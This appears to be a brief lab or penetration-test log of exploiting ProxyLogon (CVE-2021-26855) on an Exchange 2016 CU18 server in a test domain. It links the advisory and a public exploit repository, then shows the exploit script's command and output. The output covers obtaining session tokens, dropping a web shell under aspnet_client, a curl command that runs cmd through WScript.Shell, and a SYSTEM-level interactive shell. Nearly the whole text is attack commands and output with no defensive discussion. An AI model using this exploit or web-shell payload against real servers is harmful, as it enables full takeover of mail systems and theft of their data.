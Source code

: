 exchange 2016 cu18

[https://msrc.microsoft.com/update-guide/vulnerability/cve-2021-26855](https://msrc.microsoft.com/update-guide/vulnerability/cve-2021-26855)

[https://github.com/Udyz/Proxylogon](https://github.com/Udyz/Proxylogon)

```plain
(base) ┌──(root㉿Kali)-[~/tools/Proxylogon]
└─# python3 proxylogon.py exchange3.sec.local administrator@sec.local
Attacking target exchange3.sec.local
=============================
Got DN: /o=First Organization/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=cb968bc6fc7449e09efe589fab569c4b-Admin
Got SID: S-1-5-21-2066713137-2133816201-3751750268-500
Got session id: 243818c6-8007-43ab-8aeb-e19ee666082f
Got canary: THCI8FEtb06Lr9PnnTi8wJ1VwxrPwd0IbPM2doPVCV7sXWls9S43AS-kST9PEMMO0v0TpxfN0gE.
Got viewstate: /wEPDwUILTg5MDAzMDFkZD5l9rtrkspFOuFDQjkwLQSADUXbfG1gZjWByCM+iJHV
=========== It means good to go!!!====
Got OAB id: 262216e7-40d8-4670-8068-c50057fa88d7
(+) Webshell drop at https://exchange3.sec.local/aspnet_client/shell.aspx .. Have fun!
(+) Code: curl -ik https://exchange3.sec.local/aspnet_client/shell.aspx -d 'exec_code=Response.Write(new ActiveXObject("WScript.Shell").exec("cmd /c whoami").stdout.readall())'
(+) Starting semi-interactive
CMD # whoami
nt authority\system
Server                          : EXCHANGE3
WhenChanged                     : 2025/7/10 22:34:56
InternalUrl                     : https://exchange3.sec.local/OAB
ExternalUrl                     : http://ffff/#
Identity                        : EXCHANGE3\OAB (Default Web Site)
PollInterval                    : 480

CMD #

```